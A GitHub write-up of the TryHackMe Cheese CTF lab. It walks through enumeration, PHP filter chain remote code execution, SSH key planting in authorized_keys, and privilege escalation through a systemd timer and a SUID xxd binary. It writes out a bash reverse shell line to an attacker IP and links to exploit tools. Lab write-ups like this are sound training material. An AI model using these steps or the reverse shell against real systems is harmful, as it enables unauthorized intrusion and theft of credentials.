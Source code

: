 # Cheese_CTF
Here I am going to demonstrate how to complete tryhackme's Cheese CTF. I will enumerate, exploit, and gain access to root files.
YouTube Video I referenced for help: https://www.youtube.com/watch?v=V6tS5iPIX08

# Enumeration
  ## Ping
  - First thing I did was edit /etc/hosts to hold the IP of the target machine as cheese.thm
    - The /etc/hosts entry is as follows: 10.10.63.230    cheese.thm
    - This allows me to ping the cheese.thm instead of having to remember the address.
    ![image](https://github.com/user-attachments/assets/80d2d092-1a00-4c2b-88d4-959c3d2fe553)

  ## nmap scan
  nmap -p- cheese.thm -T5 -v
    
  - First I scanned all hosts with the above nmap command. I found that every port is open which is strange.
    - The below image shows only some of the ports, since showing all of the ports would be too large of an image.   
    ![image](https://github.com/user-attachments/assets/e2b881f2-df5c-41dc-879a-fb6c3a9a4f1d)

  ## dirsearch
  - Among these open ports is port 80. So the first thing to find any directories associted with the web server I used dirsearch.
    
    ![image](https://github.com/user-attachments/assets/4a12f6e2-da96-4771-b3ce-a6f34279a133)
    - I found that the above directories through the dirsearch. After searching through some, I found the /messages.html to be especially interesting.
  ## web enumeration
  - I used Caido to view the webpage through it's built in proxy.
  - After visiting the http://cheese.thm/messages.html, I was greeted with the page below.
    ![image](https://github.com/user-attachments/assets/645ed499-eb08-43e5-9708-da5a842efabe)
    
  - After clicking the link I the below message was shown. However, the most interesting part is the php filter in the url which is our attack vector.
    
    ![image](https://github.com/user-attachments/assets/6837bcd1-cdb3-4ccd-97cf-0b195bf00069)
    
# Exploitation
  ## PHP filter
  - I discovered that it's possible to get remote code execution using a php filter chain.
  - I first turned Caido into queing mode to capture the HTTP GET request.
    ![image](https://github.com/user-attachments/assets/46c481b6-ffaa-42c8-877f-5f2b7f6e136a)
  - Gaining the actual remote code execution is done by using a PHP chain generator. The link to the generator is on github: https://github.com/synacktiv/php_filter_chain_generator
    
  ## Reverse Shell
  Link to Reverse Shell setup: https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/#reverse-shell
  - The first step is to create a revshell script on your local machine. The IP address is changed to your own IP address.
    bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
  - Then in a new terminal uses the php filter generator to generate the chain for RCE.
    ![image](https://github.com/user-attachments/assets/0c1ab196-5f13-49f4-b482-ed30fdec1f37)
  - Then set up a netcat listener on the same port used in the revshell script, which is port 4444.
    ![image](https://github.com/user-attachments/assets/b7215df6-80e6-464d-bef0-34b1d8a9a6ee)
  - Next set up a simple web server on port 80 to curl the request back to your machine.
    ![image](https://github.com/user-attachments/assets/e4d87474-1716-4326-9dfd-f603f1359a43)
  - I pasted the php filter chain created earlier into the GET request we captured earlier to replay, and click send.
    ![image](https://github.com/user-attachments/assets/ee49df70-18de-47ac-b984-5dfabe23a1ef)
  - After sending we can see that a reverse shell has been created.
    ![image](https://github.com/user-attachments/assets/726092d2-fec7-4cf3-9b9b-91abda913ca9)
    ![image](https://github.com/user-attachments/assets/e9ac3a4c-c3a4-4dc0-ac05-59891b2e433b)
# User Flag
  - Now that we are in I can list files and directories. I can also move to the /home direcrory to find hosts (comte being imporant here).
    
    ![image](https://github.com/user-attachments/assets/02f2e66f-d81f-4099-8cd7-3f0cf38a58b3)
  - We can move into comte and view the files listed. The user.txt file is listed however we get permission denied when trying to read it.

    ![image](https://github.com/user-attachments/assets/df1079cf-e01f-4fc9-ab7d-471ffb625430)
    
  ### SSH Access
  - In order to get access, we need to be able to SSH. As seen before we have write access to the ~/.ssh directory, so we can move to this
    directory and see that there is an authorized_keys file we can write to. This means we can import our own local public key to the
    authorized_keys file to allow us to ssh as comte from our local machine.
    ![image](https://github.com/user-attachments/assets/c707c093-2846-472a-92c3-d99fa552e015)
  - To do this we find our own public key in our /.ssh directory and echo the public key into the authorized_keys file.
    ![image](https://github.com/user-attachments/assets/7e2108c5-3c3c-4a31-8ec3-101e6ccf5244)
    ![image](https://github.com/user-attachments/assets/063eed45-5f5c-42a7-842c-c8300f31b898)
  - Now we can ssh into our target machine as comte from our own machine and successfuly read the file as comte. However, I am not showing the flag here.
    
    ![image](https://github.com/user-attachments/assets/2b94a5b3-d4ac-4cb3-a556-42b132998e97)


# Privelage Escalation
- We can discover what services we can run as comte with the sudo -l command.
  ![image](https://github.com/user-attachments/assets/c053fa75-bb7f-4d56-a4ad-d577fb3041b8)
- Moving into the /etc/systemd directory allows us to view the details of the exploit.timer and exploit.service.
  ![image](https://github.com/user-attachments/assets/ad5e5f8d-bf04-4bc4-ace8-ec81c4602e64)
- As seen there isn't a time specified yet in the exploit timer, so I used nano to modify the exploit.timer file and specify 5 seconds.
  
  ![image](https://github.com/user-attachments/assets/4611fc23-472a-445c-928c-0d85fbd8d676)
- After setting this it's possible to run the sudo commands from earlier to run the exploit timer. Then you can move into the /opt directory to view
  the xxd service.
  - Link to view /xxd binary privelage escalation tactics: https://gtfobins.github.io/gtfobins/xxd/
  ![image](https://github.com/user-attachments/assets/a0dbe60e-932f-4289-bd60-bb4684ea7399)
- The above link says the -s bit of the /.xxd allows for any files to be read. So we can now read files only availabe to root such as /etc/shadow
  ![image](https://github.com/user-attachments/assets/107ae72f-9c1c-46e4-9872-b0be0b1ef7a4)


# Root Flag
- Using the above method the root.txt file can also be read to gain the root flag. Which I once again will not show.
  ![image](https://github.com/user-attachments/assets/50a91a3a-7ab7-4cbf-8b86-11cd77213557)













